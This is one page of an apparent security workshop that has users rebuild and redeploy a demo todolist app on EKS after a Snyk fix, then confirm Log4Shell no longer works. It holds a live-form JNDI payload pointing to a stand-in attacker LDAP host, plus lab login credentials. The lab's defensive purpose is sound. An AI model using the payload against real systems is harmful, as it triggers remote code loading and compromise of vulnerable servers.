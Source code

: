 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your VS Code Server working branch

Back in VS Code Server, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to ECR (make sure you are inside the todolist directory).

```sh
docker build -t $REPO/todolist:latest .
docker push $REPO/todolist:latest
```

## Re-deploy the Application to EKS

After pushing the image to ECR, push it to EKS by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces EKS to pull the latest image from ECR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your browser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string:

* User:
```bash
foo@bar.org
```
* Password:
```bash
foobar
```
Enter search string
```bash
${jndi:ldap://ldap.darkweb:80/#Vandalize}
```

The page will not show the graffiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)
